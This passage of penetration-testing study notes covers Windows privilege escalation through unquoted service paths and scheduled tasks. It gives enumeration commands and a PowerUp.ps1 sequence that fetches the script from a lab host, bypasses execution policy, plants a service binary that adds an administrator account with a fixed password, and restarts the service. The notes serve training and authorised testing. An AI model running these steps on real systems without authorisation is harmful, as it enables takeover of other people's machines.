 ```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName
i
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
- The `/v` parameter in `findstr` will perform an inverse match - i.e only list string that do not contain `C:\Windows\` and `"` 
- We can check if we can start and stop a service with `Start-Service servicename` and `Stop-Service servicename`
- We can use the function `Get-UnquotedService` from `PowerUp.ps1` to automate enumeration and also exploit it
```powershell
iwr http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1

powershell -ep bypass

. .\PowerUp.ps1

Get-UnquotedService

Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

Restart-Service GammaService
```
> [!IMPORTANT]
> By default, `PowerUp.ps1` will create a user called `john` with password `Password123!` and try to add the user to the local Administrators group

# Abusing Other Windows Components

## Scheduled Tasks
- To identify possible privilege escalation vectors, the following pieces of information are vital
	- As which user account (principal) does this task get executed?
	- What triggers are specified for the task?
	- What actions are executed when one or more of these triggers are met?
- To list scheduled tasks we can use `Get-ScheduledTask` or `schtasks /query`
```powershell
schtasks /query /fo LIST /v

schtasks /query /fo LIST /v /TN "My Task"
```
- The parameter `/fo LIST` will set the output format to as list
- The parameter `/v` will enable verbose output and provide more information
- The parameter `/TN` will only display the task with specified as taskname
- In regards to the three questions above, we should check the output fields `Author`, `TaskName`, `Task To Run`, `Run As User`and `Next Run Time`
- Check if any executables, scripts or files involved in the tasks are accessible using `icacls`
- Replace the executable or script with a malicious payload and execute the trigger
